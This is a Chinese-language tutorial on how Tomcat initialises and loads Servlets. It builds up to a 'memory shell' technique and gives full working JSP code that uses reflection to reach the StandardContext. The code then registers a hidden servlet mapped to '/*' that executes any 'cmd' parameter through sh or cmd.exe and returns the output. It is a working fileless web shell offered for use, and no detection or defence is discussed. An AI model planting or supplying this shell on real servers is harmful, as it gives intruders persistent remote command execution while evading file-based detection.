






## Servlet基础介绍

直接看tomacat基础篇

我们主要关注`Servlet`的初始化阶段和加载过程

## 初始化流程分析

从web.xml中获取Servlet，然后调用创建了wrapper，然后调用set方法配置wrapper相关的属性



将创建配置好的`wrapper`添加到`context`上下文中




然后会遍历web.xml中servlet-mapping的servlet-name和对应的url-pattern，调用`StandardContext.addServletMappingDecoded()`添加servlet对应的映射:



总结一下，Servlet的初始化一共有几个步骤:

> 1.通过 context.createWapper() 创建 Wapper 对象
>
> 2.设置 Servlet 的 LoadOnStartUp 的值(重要)
> 3.设置 Servlet 的 Name
> 4.设置 Servlet 对应的 Class
> 5.将 Servlet 添加到 context 的 children 中
> 6.将 url 路径和 servlet 类做映射

## Servlet加载过程

在`org.apache.catalina.core.StandardWapper#loadServlet()`处下断点调试，回溯到`StandardContext.startInternal()`方法:



`findChildren()`方法从StandardContext中拿到所有的child并传到`loadOnStartUp()`方法处理，跟到`loadOnstartup()`

这个位置说明了我们需要赋值给`loadOnStartup`这个属性





其中

>load-on-startup 这个元素的含义是在服务器启动的时候就加载这个servlet(实例化并调用init()方法). 这个元素中的可选内容必须为一个整数,表明了这个servlet被加载的先后顺序. 当是一个负数时或者没有指定时，则表示服务器在该servlet被调用时才加载。
>
>当未设置load-on-startup属性是，tomcat采用的是一种懒加载的机制，只有servlet被调用时才会加载到Context中。

由于我们需要动态注册Servlet，为了使其被加载，我们必须设置load-on-startup属性。

##  内存马流程分析

根据上述的流程分析，我们可以模仿上述的加载机制手动注册一个servlet:

>1.获取StandardContext
>
>2.制作一个恶意的servlet
>
>3.通过 context.createWapper() 创建 Wapper 对象
>
>4.设置 Servlet 的 LoadOnStartUp 的值
>
>5.设置 Servlet 的 Name
>
>6.设置 Servlet 对应的 Class
>
>7.将 Servlet 添加到 context 的 children 中
>
>8.将 url 路径和 servlet 类做映射

代码

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.PrintWriter" %>
<%!
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext stdcontext = (StandardContext) req.getContext();
%>
<%
    Wrapper newWrapper = stdcontext.createWrapper();
    String name = servlet.getClass().getSimpleName();
    newWrapper.setName(name);
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());
%>
<%
    stdcontext.addChild(newWrapper);
    stdcontext.addServletMappingDecoded("/*", name);
%>
```

tomcat整个Servlet的过程

```
装载：启动服务器时加载Servlet的实例

初始化：web服务器启动时或web服务器接收到请求时，或者两者之间的某个时刻启动。初始化工作有init()方法负责执行完成

调用：即每次调用Servlet的service()，从第一次到以后的多次访问，都是只是调用doGet()或doPost()方法（doGet、doPost内部实现，具体参照HttpServlet类service()的重写）

销毁：停止服务器时调用destroy()方法，销毁实例
```

### 获取StandardContext方法

```java
Field reqF = request.getClass().getDeclaredField("request");
reqF.setAccessible(true);
Request req = (Request) reqF.get(request);
StandardContext stdcontext = (StandardContext) req.getContext();
```

